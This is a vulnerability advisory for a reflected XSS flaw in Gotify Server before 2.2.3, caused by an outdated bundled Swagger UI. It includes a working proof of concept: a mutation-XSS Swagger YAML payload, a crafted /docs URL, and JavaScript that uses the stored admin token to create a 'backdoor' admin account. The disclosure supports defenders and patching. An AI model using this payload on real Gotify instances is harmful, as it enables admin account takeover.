

# Reflected XSS in Gotify Server via hardcoded import of outdated Swagger UI component

## Advisory Info

- Vendor: [Gotify](https://github.com/gotify)
- Product: [Server](https://github.com/gotify/server)
- Affected Versions: >= 2.0.0 < 2.2.3
- Patched Versions: 2.2.3
- Vendor Advisory: [https://github.com/advisories/GHSA-3244-8mff-w398](https://github.com/advisories/GHSA-3244-8mff-w398)
- Vendor Publication Date: 2023-01-10

## Vulnerability Info

- Weakness: [CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')](https://cwe.mitre.org/data/definitions/79.html)
- CVE: N/A

## Summary

Since [v2.0.0](https://github.com/gotify/server/commit/25576e2ed13020718332c42593fd532994298b5a), Gotify Server has included an instance of the [Swagger UI](https://swagger.io/tools/swagger-ui/) API documentation frontend at the `/docs` [route](https://github.com/gotify/server/blob/v2.2.2/router/router.go#L68).

Until [v2.2.3](https://github.com/gotify/server/pull/541), the Swagger UI version hardcoded in Gotify's `Docs.UI` (Swagger UI 3.20.5) contained a bundled DOMPurify component which was vulnerable to the mutation XSS technique [identified by](https://research.securitum.com/mutation-xss-via-mathml-mutation-dompurify-2-0-17-bypass/) Michał Bentkowski in 2021 ([CVE-2020-26870](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-26870), [GHSA-qrmm-w75w-3wpx](https://github.com/advisories/GHSA-qrmm-w75w-3wpx)).

```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/swagger-ui/3.20.5/swagger-ui-bundle.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/swagger-ui/3.20.5/swagger-ui-standalone-preset.js"></script>
```

Gotify versions before 2.2.3 are thus susceptible to reflected XSS attacks via the `/docs` route when loading external Swagger config files from the `url` query string parameter.

Since Gotify stores the logged-in user's auth token in [localStorage](https://developer.mozilla.org/en-US/docs/Web/API/Window/localStorage#description) and accepts it via the `X-Gotify-Key` header, reflected XSS on Gotify can result in admin account takeover if a logged-in admin browses to a crafted URL.

## Steps to Reproduce

1. Use the official [Docker Compose file](https://gotify.net/docs/install#docker) or [example config file](https://raw.githubusercontent.com/gotify/server/v2.2.2/config.example.yml) to bring up an instance of Gotify Server (herein `https://gotify`) and log in with the admin credentials defined in the `defaultuser` block.

2. Host the [Swagger YAML file](#swagger-yaml-file) at a location that you control (herein `https://attacker/swagger.yaml`). This YAML file is based on the [example exploit spec](https://www.vidocsecurity.com/blog/hacking-swagger-ui-from-xss-to-account-takeovers#exploit) provided by Vidoc Security in their Swagger XSS writeup but with the following JavaScript payload encoded to Base64:

```javascript
fetch(window.location.origin + "/user", {
    "credentials": "omit",
    "headers": {
        "Accept": "application/json, text/plain, */*",
        "Accept-Language": "en-US,en;q=0.5",
        "Content-Type": "application/json",
        "X-Gotify-Key": localStorage.getItem("gotify-login-key")
    },
    "body": "{\"name\": \"backdoor\", \"pass\": \"GotifyReproDemo\", \"admin\": true }",
    "method": "POST",
    "mode": "cors"
});
```

3. Browse to <https://gotify/docs?url=https://attacker/swagger.yaml>, then browse to <https://gotify/#/users> and observe that a new admin user with the name `backdoor` has been added to the instance:



### Swagger YAML file

```yaml
swagger: '2.0'
info:
  title: Gotify Proof of Concept
  description: <form><math><mtext></form><form><mglyph><svg><mtext><textarea><path id="</textarea>"></form>
  version: production
basePath: /poc
```

## Impact

An attacker can execute arbitrary JavaScript in the context of a logged-in Gotify user who browses to a crafted URL and exploit this to gain administrative access to the Gotify Web UI if it is reachable and the victim is an administrator.

## Timeline

- 2023-01-10: Vulnerability discovery
- 2023-01-10: Advisory sent to vendor
- 2023-01-10: Vendor acknowledgment
- 2023-01-10: Vendor releases fix in v2.2.3 ([PR](https://github.com/gotify/server/pull/541), [release](https://github.com/gotify/server/releases/tag/v2.2.3))
- 2023-01-10: Public disclosure via [GitHub Security Advisory](https://github.com/advisories/GHSA-3244-8mff-w398)
